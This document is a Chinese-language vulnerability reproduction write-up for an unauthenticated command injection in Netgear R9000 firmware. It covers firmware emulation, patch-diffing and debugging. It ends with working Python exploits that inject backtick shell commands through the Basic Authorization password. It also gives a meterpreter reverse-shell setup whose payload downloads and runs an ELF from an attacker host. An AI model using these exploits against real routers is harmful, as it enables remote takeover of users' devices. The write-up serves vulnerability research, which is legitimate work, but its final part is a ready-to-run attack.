






# R9000_unauth_command_injection


固件版本：R9000-V1.0.4.26.img

## 解压
 ```
 binwalk -Me R9000-V1.0.4.26.img 
 ```
 
 
arm-32-little

---


# firmAE
```
sudo ./run.sh -d netgear '/home/iot/Desktop/Netgear/netgearR9000/R9000-V1.0.4.26.img' 
```
没模拟起来，看文章，是自己qemu-system 模拟的


# qemu_system 模拟
```

# 配置ubuntu网卡：
$ sudo tunctl -t tap0
$ sudo ifconfig tap0 192.168.0.1/24 up


#3.qemu-system.sh

#!/bin/sh
qemu-system-arm \
    -M vexpress-a9 \                    #vexpress-a9开发板
    -kernel vmlinuz-3.2.0-4-vexpress \   #加载的Linux内核
    -initrd initrd.img-3.2.0-4-vexpress \    #initrd.img-3.2.0-4-vexpress是内核启动时加载的初始文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \
    -net nic -net tap,ifname=tap0,script=no,downscript=no \
    -nographic


    ###initrd.gz下载链接：wget https://people.debian.org/~aurel32/qemu/armhf/initrd.img-3.2.0-4-vexpress


tar -zcvf sq.tar.gz squashfs-root/
scp -r ./sq.tar.gz   root@192.168.0.1:/tmp/
tar -zxvf sq.tar.gz
# 3、scp -r ./squashfs-root/   root@192.168.0.1:/tmp/

#4
cd /squashfs-root
mount --bind /proc proc
mount --bind /dev dev  
chroot . sh

```


httpd使用脚本uhttpd起的，其中看到了/www/cgi-cin/uhttpd.sh  start   ,继续跟进


查看/www/cgi-bin/uhttpd.sh 


```

所以我们只需要执行
/usr/sbin/uhttpd -h /www -r R9000  -x /cgi-bin -t 70 -p 0.0.0.0:80 -C /etc/uhttpd.crt -K /etc/uhttpd.key -s 0.0.0.0:443

-h /www：

指定文档根目录。服务器将从这个目录提供静态文件。
/www 是文档根目录的路径。
-r R9000：

设置主机名。这个参数通常用来定义服务器的标识。
R9000 是主机名。
-x /cgi-bin：

设置CGI脚本目录。服务器将从这个目录执行CGI脚本。
/cgi-bin 是CGI脚本目录的路径。
-t 70：

设置连接超时时间（秒）。如果连接在指定时间内没有活动，服务器将关闭连接。
70 是超时时间，单位为秒。
-p 0.0.0.0:80：

设置HTTP监听地址和端口。服务器将监听指定的地址和端口来处理HTTP请求。
0.0.0.0 表示监听所有网络接口，80 是HTTP端口。
-C /etc/uhttpd.crt：

指定SSL证书文件的路径。用于HTTPS连接。
/etc/uhttpd.crt 是SSL证书文件的路径。
-K /etc/uhttpd.key：

指定SSL密钥文件的路径。用于HTTPS连接。
/etc/uhttpd.key 是SSL密钥文件的路径。
-s 0.0.0.0:443：

设置HTTPS监听地址和端口。服务器将监听指定的地址和端口来处理HTTPS请求。
0.0.0.0 表示监听所有网络接口，443 是HTTPS端口。


我们不需要https ,所以只需要执行如下：
/usr/sbin/uhttpd -h /www -r R9000 -x /cgi-bin -t 70 -p 0.0.0.0:80
```

---


怎么显示404？
随便找一个www中的资源访问，发现可以，发现服务其实启动成功了，但是html和htm都访问不了。


找一下登陆页面，发现所有htm都无法访问。但是cgi,js,jpg,txt都可以访问。
尝试着排错。


没解决，不知道哪里模拟错了，可能是一些兼容性问题。

---

搜索了下页面中的错误字符


打开www/languages-en.js发现只有一个定义。


并没有任何引用，那就搜索bad_file 看看。


出来逻辑可能在usr/sbin/net-cgi

我们放入ida分析

估计就是因为走了这里，导致无法访问htm.


我们向上找看什么时候会执行LABEL_209


这里看汇编 

我们知道dni_atoi的参数是（getenv("CONTENT_LENGTH")）的返回值


```
     v8 = getenv("CONTENT_LENGTH");
  if ( v8 )
    v134 = dni_atoi((int)v8);  
  else
    v134 = 0; 
    ..........................
    .......................
     if ( dni_strcmp(dword_107890, "127.0.0.1")
        && v137 == 1
        && dni_strstr(a1, ".htm")                            //含有.htm字符
        
      {
          
         v85 = v134;
        v86 = time(0);
        while ( 1 )
        {
          if ( !v85 )
            goto LABEL_209;

     }
```

所以这里


---
hook前先验证一下，是不是这里。


果然，先判断了.htm  ,然后如果v85=0，就会跳转到LABEL_209，然后就404了。


所以这里要不404， content_length 不能为0.

**当然这一段html其实不显示，也是不影响我们复现漏洞的，因为他是静态的**


---


# 漏洞分析
```
wget https://www.downloads.netgear.com/files/GDC/R9000/R9000-V1.0.4.28.zip
```
获取修复版本的固件。
Bindiff 进行二进制比对，来查找漏洞点。


根据漏洞修复，这里锁定uh_cgi_auth_check函数做了修改

ida中去分析

   
所以这里密码可以造成命令执行。

此时我还不知道应该怎么写exp，已经怎么传参。
看看前端是怎么提交Authorization的



这里他就会去处理Authorization，那么我们就来写exp

R9000_unauth_command_injection.exp
```
# -*- coding: utf-8 -*-
import requests
import base64

cmd = '`echo 111 > test.txt`'
payload = 'admin:' + cmd
payload64 = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

burp0_url = "http://192.168.0.1:80/cgi-bin/"
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + payload64
}

response = requests.get(burp0_url, headers=burp0_headers)
print(response.status_code)
print(response.text)

```


虽然显示未授权，但依然执行成功了。


---
# msf木马

msf生成木马
```
msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=8989 -f elf -o armle_reverse_tcp.elf
```

监听
```
use exploit/multi/handler
set payload linux/armle/meterpreter/reverse_tcp
set LHOST 192.168.0.2
set LPORT 8989
exploit
```

本机开httpserver传输木马
```
python3 -m http.server

#wget的根目录取决于在python3 -m http.server的工作目录
```


exp.py
```
# -*- coding: utf-8 -*-
import requests
import base64


cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.0.2:8000/shell.elf\n'
cmd += 'chmod 777 ./shell.elf\n'
cmd += './shell.elf\n'
cmd += '`'


payload64 = base64.b64encode(cmd.encode()).decode()

burp0_url = "http://192.168.0.1:80/cgi-bin/"
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + payload64
}

response = requests.get(burp0_url, headers=burp0_headers,timeout=3)
print(response.status_code)
print(response.text)


```